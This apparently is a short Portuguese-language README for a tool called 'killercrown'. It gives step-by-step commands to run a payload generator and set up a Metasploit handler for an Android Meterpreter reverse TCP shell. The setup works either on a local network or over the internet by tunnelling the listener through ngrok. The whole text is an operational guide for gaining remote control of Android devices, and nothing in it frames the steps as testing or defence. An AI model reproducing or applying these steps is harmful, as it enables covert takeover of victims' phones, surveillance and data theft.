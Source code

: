 # killercrown

cd /killercrown
./PAYLOAD
seleciona  a opcao deseja
se for 1 meti o endereco ip da sua maquina e uma porta aberta
para configurar o metasploit incia o msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST eoipquevoceusounopayload
set LPORT eaportaquevoceusounopayload
exploit
##rede externa
se for a opcao 2 vai precisar usar do servico nrgok inicia ele usando: ngrok tcp eumaporta 
o ngrok vai gerar uma porta exemplo: 0.tcp.ngrok.io:eaportagerada
quando escolher a opcao 2 voce coloca essa porta que foi gerada
configurar o metasploit
inicia o metasploit
use exploit/multi/handler
set paylaod android/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT aportaquevoceusouparaabrir o ngrok
exploit
